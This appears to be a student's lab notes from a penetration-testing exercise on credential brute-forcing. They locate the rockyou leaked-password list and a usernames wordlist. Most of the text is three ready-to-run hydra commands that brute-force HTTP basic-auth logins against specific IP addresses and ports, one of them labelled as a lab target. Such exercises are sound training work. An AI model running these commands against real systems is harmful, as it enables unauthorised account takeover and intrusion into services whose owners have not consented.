 # Username Brute Force

locate rockyou.txt
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt


locate names.txt
/opt/useful/SecLists/Usernames/Names/names.txt

## Username/Password Attack

hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

## Username Brute Force

hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /

## LAB

83.136.250.104:48522


hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p admin -u -f 83.136.250.104 -s 48522 http-get /
